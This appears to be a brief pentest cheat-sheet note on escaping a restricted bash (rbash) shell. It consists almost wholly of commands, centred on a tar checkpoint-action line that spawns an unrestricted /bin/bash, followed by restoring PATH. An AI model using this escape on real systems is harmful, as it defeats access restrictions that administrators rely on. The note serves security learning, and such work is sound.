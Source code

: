 ```yaml
---
title: "rbash"
date: 2024-7-9
tags: ["rbash", "shell", "escape", "bypass", "tar"]
---
```


### Abuse #1: tar to rbash Escape

```console
# Before enter rbash
echo $PATH
```

```console
# Enter rbash
su <USER> -
```

```console
# rbash escape using tar
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```console
# Paste the above $PATH (e.g.)
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
